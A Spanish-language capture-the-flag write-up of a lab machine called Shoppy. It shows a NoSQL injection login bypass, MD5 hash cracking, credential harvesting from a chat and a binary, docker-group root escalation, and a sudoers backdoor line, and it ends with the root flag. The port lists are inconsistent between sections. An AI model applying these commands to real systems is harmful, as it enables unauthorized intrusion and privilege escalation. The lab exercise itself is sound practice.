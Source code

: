 # Summary
- IP: 10.10.11.180
- Ports: 22,80,9093,
- OS: Linux (Ubuntu)
- Services & Applications:
	-  22 -> OpenSSH 8.4p1 Debian 5+deb11u1
	-  80 -> nginx 1.23.1
	-  9093 -> copycat?

# Recon
- Reconocimiento básico de puertos:

```
$sudo nmap -p- -sS --open --min-rate 5000 -vvv -n -Pn 10.10.116.216 -oG allPorts
``` 

- Reconocimiento profundo de puertos encontrados:

``` 
$sudo nmap -p22,80,139,445,8009,8080 -sCV 10.10.116.216 -oN targeted
``` 

- Análisis de directorios web con gobuster:

$sudo gobuster dir -u shoppy.htb -w /home/dante/SecLists/Discovery/Web-Content/common.txt

- Nos encontramos con un directorio "login" el cual nos despliega una ventana de logeo, al no poseer credenciales intentamos inyectar payload nosql:

```
admin'||'1==1
```

- Accedemos a la web de shoppy, en la que encontramos un buscador de usuarios, insertamos de nuevo el mismo payload que inyectamos anteriormente y nos arroja un archivo json con dos usuarios y credenciales hasheadas.

- Intentamos romper los hashes con john:

$sudo john -w:/home/dante/SecLists/Passwords/Leaked-Databases/rockyou.txt hash --format=Raw-MD5

- Encontramos la crendencial de "josh" pero por ahora no nos sirve; buscamos subdominios de "shoppy.htb":

```
$sudo gobuster vhost -w /home/dante/SecLists/Discovery/DNS/bitquark-subdomains-top100000.txt -t 100 -u shoppy.htb
```

- Encontramos "mattermost.shoppy.htb" accedemos y en la web depslegada al analizar encontramos una conversación privada en la que hay credenciales, ingresamos por SSH como el usuario jaeger y encontramos la user flag.


# ESCALANDO PRIVILEGIOS:


- Al hacer sudo -l vemos que podemos ejecutar el binario "password-manager" como el usuario "deploy", lo hacemos:

```
$sudo su -u deploy ./password-manager
```

- Pero nos pide una contraseña maestra; hacemos cat al binario y encontramos una crendencial, la probamos y nos despliega las credenciales del usuario "deploy":

```
cat password-manager
```

- Accedemos por SSH como "deploy" y nos damos cuenta que pertenecemos al grupo "docker", haciendo una búsqueda en gtfobins encontramos una forma de ser root con esta información, que consiste en montar la raiz de la máquina en un contenedor y por medio de una montura tener acceso como root dentro del contenedor:

```
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```

- Aquí podemos encontrar la root flag, sin embargo aún no tenemos la máquina ocmpletamente vulnerada, pues estamos dentro de un contenedor, para tener acceso completo aprovechamos que estamos en la raíz de la máquina original y modificamos el archivo de sudoers:

```
echo 'ALL ALL=(ALL) NOPASSWD: ALL' >> /etc/sudoers
```

- Con el archivo ya modificado podemos salir del contenedor con el comando "exit" y comprobamos que podemos ejecutar sudo como cualquier usuario con sudo -l; hacemos "sudo su" y estaremos como root con acceso completo.

# ROOT FLAG: c03008085c5a5a10634d7b6c0de88bb5